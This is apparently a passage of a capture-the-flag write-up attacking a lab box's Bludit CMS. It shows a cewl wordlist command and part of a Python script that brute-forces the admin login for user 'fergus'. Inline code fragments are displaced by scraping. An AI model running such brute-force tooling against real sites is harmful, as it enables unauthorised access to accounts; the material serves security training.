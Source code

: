  ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200531150442296.png) 

This means that the Bludit is v3.9.2 or older. In the release notes for v3.10.0, it mentions fixing both the brute force bypass and two code execution vulnerabilities:

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200601103710245.png) 

So this site should be vulnerable to these exploits if I can get creds.

## Shell as www-data

### Brute Force Creds for fergus

Given that I have the vulnerability that allows for credential brute force, and the hint from that fergus is a username, I’m going to try to find creds using brute force.`todo.txt`

#### Make Wordlist

Before just trying , I thought that using [cewl](https://github.com/digininja/CeWL) to make a custom wordlist from the site might be a more interesting path that the box author might have taken. will make a wordlist from a website. I’ll create one from the main page here:`rockyou``cewl`

    root@kali# cewl http://10.10.10.191 > wordlist 
    

After I remove the first line with ( banner output), the list has 349 passwords:`vim``cewl`

    root@kali# wc -l wordlist 
    349 wordlist
    

#### Update Script

The POC script from Rastating proves the concept, but it isn’t set up to exploit. I’ll make a bunch of changes, having it load my wordlist as an arg from the command line, using to print status but on the same line so it doesn’t blast my terminal, removing the dummy passwords. My script looks like:`\r`

    #!/usr/bin/env python3
    import re
    import requests
    import sys
    
    host = 'http://10.10.10.191'
    login_url = host + '/admin/login'
    username = 'fergus'
    
    with open(sys.argv[1], 'r') as f:
        wordlist = [x.strip() for x in f.readlines()]
    
    for password in wordlist:
        session = requests.Session()
        login_page = session.get(login_url)
        csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
    
        print(f'\r[*] Trying: {password:<90}'.format(p = password), end="", flush=True)
    
